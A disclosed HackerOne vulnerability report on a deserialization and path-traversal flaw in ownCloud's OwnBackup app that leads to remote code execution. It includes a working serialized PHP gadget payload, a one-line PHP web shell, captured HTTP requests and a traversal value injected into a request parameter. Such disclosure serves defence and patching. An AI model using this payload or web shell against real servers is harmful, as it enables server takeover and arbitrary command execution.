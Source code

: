 # Remote Code Execution through Deserialization Attack in OwnBackup app.

## Report Details
- **Report ID**: 562335
- **URL**: https://hackerone.com/reports/562335
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-05-02T21:35:03.162Z
- **Disclosed**: 2019-07-01T16:35:37.405Z

## Reporter
- **Username**: q3rv0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
I found a deserialization vulnerability in the [OwnBackup](https://marketplace.owncloud.com/apps/ownbackup) app, this vulnerability allows to execute remote code in the server. 

An administrator user could install the vulnerable app, or take advantage of this vulnerability if the **OwnBackup** application is installed.

Below are the steps to properly exploit the deserialization vulnerability.

**Step 1:** Login in the Owncloud application as an administrator user.

**Step 2:** Install the **OwnBackup** app from the Marketplace.

**Step 3:** Go to **Files** and upload the following files to the server.

* **structure.xml**
```
<?xml version="1.0" ?>
<database><name>*dbname*</name><create>true</create><overwrite>false</overwrite><charset>utf8mb4</charset><table><name>oc_accounts</name><declaration><field><name>id</name><type>integer</type><default>0</default><notnull>true</notnull><autoincrement>1</autoincrement><unsigned>true</unsigned><length>8</length></field><field><name>email</name><type>text</type><default/><notnull>false</notnull><length>255</length></field><field><name>user_id</name><type>text</type><default/><notnull>true</notnull><length>255</length></field><field><name>lower_user_id</name><type>text</type><default/><notnull>true</notnull><length>255</length></field><field><name>display_name</name><type>text</type><default/><notnull>false</notnull><length>255</length></field><field><name>quota</name><type>text</type><default/><notnull>false</notnull><length>32</length></field><field><name>last_login</name><type>integer</type><default>0</default><notnull>true</notnull><length>4</length></field><field><name>backend</name><type>text</type><default/><notnull>true</notnull><length>64</length></field><field><name>home</name><type>text</type><default/><notnull>true</notnull><length>1024</length></field><field><name>state</name><type>integer</type><default>0</default><notnull>true</notnull><length>2</length></field><index><name>UNIQ_907AA303A76ED395</name><unique>true</unique><field><name>user_id</name><sorting>ascending</sorting></field></index><index><name>lower_user_id_index</name><unique>true</unique><field><name>lower_user_id</name><sorting>ascending</sorting></field></index><index><name>display_name_index</name><field><name>display_name</name><sorting>ascending</sorting></field></index><index><name>email_index</name><field><name>email</name><sorting>ascending</sorting></field></index></declaration></table></database>
```

* **data.dump**
```
O:33:"Swift_Transport_SendmailTransport":3:{s:10:"*_buffer";O:31:"Swift_ByteStream_FileByteStream":4:{s:38:"Swift_ByteStream_FileByteStream_path";s:14:"/tmp/pwned.php";s:38:"Swift_ByteStream_FileByteStream_mode";s:3:"w+b";s:56:"Swift_ByteStream_AbstractFilterableInputStream_filters";a:0:{}s:60:"Swift_ByteStream_AbstractFilterableInputStream_writeBuffer";s:57:"<?php system($_GET['exec']); ?> // fedef@secsignal.org
//";}s:11:"*_started";b:1;s:19:"*_eventDispatcher";O:34:"Swift_Events_SimpleEventDispatcher":0:{}}
```

**Step 4:** Go to **admin** > **Settings** > **Additional**.

**Step 5:** In **OwnBackup** > **Create Backup**.

**Step 6:** Select the created backup and select any table to restore > **Restore tables**

**Step 7:** Capture the next request with the BurpSuite proxy.

```
POST /owncloud/index.php/apps/ownbackup/restore-tables HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
requesttoken: 
OCS-APIREQUEST: true
X-Requested-With: XMLHttpRequest
Content-Length: 45
Cookie: ocyqfze0wn1b=u1b58qbra5g0lh2rujgofg2f77; oc_sessionPassphrase=hAgcALFZ%2FrAi6y%2BtM8KNRbpzscVNFLnPIi1tz6zPzRCyCjUoFpZd5xlZOejCE2zoN5Dz4io832pAeKlPu7grxmHVGflUFJ2hrE0xdnovBqxGgEQN7VC1i6GbEaHfW1NP; shortest-last-redirect-time=1500074341246; _ga=GA1.1.1537606638.1500074341; shortest-last-pop-under=1500074352780; KCFINDER_showname=on; KCFINDER_showsize=off; KCFINDER_showtime=off; KCFINDER_order=name; KCFINDER_orderDesc=off; KCFINDER_view=thumbs; KCFINDER_displaySettings=off; MANTIS_MANAGE_CONFIG_COOKIE=0%3A0%3A-2; MANTIS_PROJECT_COOKIE=5
Connection: close

timestamp=1555661563&tables%5B%5D=oc_accounts
```
And change the value of the parameter **tables[]** by the following path traversal.

```
../../admin/files
```
The modified request is left as follows.

```
POST /owncloud/index.php/apps/ownbackup/restore-tables HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
requesttoken: 
OCS-APIREQUEST: true
X-Requested-With: XMLHttpRequest
Content-Length: 45
Cookie: ocyqfze0wn1b=u1b58qbra5g0lh2rujgofg2f77; oc_sessionPassphrase=hAgcALFZ%2FrAi6y%2BtM8KNRbpzscVNFLnPIi1tz6zPzRCyCjUoFpZd5xlZOejCE2zoN5Dz4io832pAeKlPu7grxmHVGflUFJ2hrE0xdnovBqxGgEQN7VC1i6GbEaHfW1NP; shortest-last-redirect-time=1500074341246; _ga=GA1.1.1537606638.1500074341; shortest-last-pop-under=1500074352780; KCFINDER_showname=on; KCFINDER_showsize=off; KCFINDER_showtime=off; KCFINDER_order=name; KCFINDER_orderDesc=off; KCFINDER_view=thumbs; KCFINDER_displaySettings=off; MANTIS_MANAGE_CONFIG_COOKIE=0%3A0%3A-2; MANTIS_PROJECT_COOKIE=5
Connection: close

timestamp=1555661563&tables%5B%5D=../../admin/files
```
The serialized payload within the **data.dump** file is intended to create the file **pwned.php** within the **/tmp** directory as a PoC. But the same file could be created within the web directory, to execute commands remotely.

Contents of the file pwned.php.
```
<?php system($_GET['exec']); ?> // fedef@secsignal.org
```
**Step 8:** View the **/tmp/pwned.php** file created correctly.

## Impact

An attacker could execute commands remotely on the server.

## Attachments
- structure.xml
- data.dump

